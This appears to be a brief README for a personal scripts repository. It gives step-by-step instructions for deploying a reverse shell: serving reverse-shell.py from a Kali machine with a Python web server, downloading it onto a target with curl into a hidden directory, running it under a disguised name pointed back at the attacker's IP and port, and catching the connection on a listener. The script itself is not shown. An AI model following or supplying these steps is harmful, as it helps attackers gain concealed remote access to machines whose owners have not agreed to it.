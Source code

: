 # scripts
Guten tag! These are some personal scripts from projects and other things.

For running the reverse shell:
1. Run the listener on a different Kali box, set up a python server using python3 -m http.server 8080
2. Use curl to download the reverse-shell.py script (ideally in a unseen directory)
3. Ensure python is installed on the target, then run ./reverse-shell.py (or a slightly less obvious name) [KALI IP] 8443
4. Back on the listener, press enter and look to see that you can connect